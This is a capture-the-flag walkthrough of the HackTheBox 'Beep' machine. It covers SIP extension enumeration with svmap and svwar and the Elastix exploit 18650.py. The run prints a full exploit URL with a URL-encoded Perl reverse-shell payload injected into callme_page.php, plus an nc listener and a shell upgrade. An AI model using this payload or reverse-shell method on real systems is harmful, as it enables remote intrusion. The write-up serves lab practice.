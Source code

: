 [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/beep)

I used exploit `php/webapps/18650.py` found when I enum Elastix.

Detect VoIP system using svmap

```
┌──(Hades㉿10.10.14.5)-[2.1:20.3]~/walkthrough/hackthebox/beep
└─$ svmap 10.10.10.7
+-----------------+---------------------+-------------+
| SIP Device      | User Agent          | Fingerprint |
+=================+=====================+=============+
| 10.10.10.7:5060 | FPBX-2.8.1(1.8.7.0) | disabled    |
+-----------------+---------------------+-------------+
```

Find the extension in the server with `svwar`

+ `-m` method REGISTER (default), OPTIONS and INVITE
+ `-e` RANGE

There are an authentication when I use method REGISTER, I also have no OPTIONS, I use INVITE to call in the chanel with range of extension 100-300.

```
┌──(Hades㉿10.10.14.5)-[1.3:20.3]~/walkthrough/hackthebox/beep
└─$ svwar -m INVITE -e100-300 10.10.10.7
<snip>
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 229       | weird          |
+-----------+----------------+
``` 

In the exploit the extension="233", I was drop some `sys.argv` and query the url with firefox.

[IppSec HackTheBox Beep](https://www.youtube.com/watch?v=XJmBpOd__N8)

```
┌──(Hades㉿10.10.14.5)-[1.5:21.3]~/walkthrough/hackthebox/beep
└─$ python3 18650.py 233 10.10.10.7 10.10.14.5 443
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

Listener in Kali machine

```
┌──(Hades㉿10.10.14.5)-[2.2:50.6]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.7] 47806
id
uid=100(asterisk) gid=101(asterisk)
python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ 
```
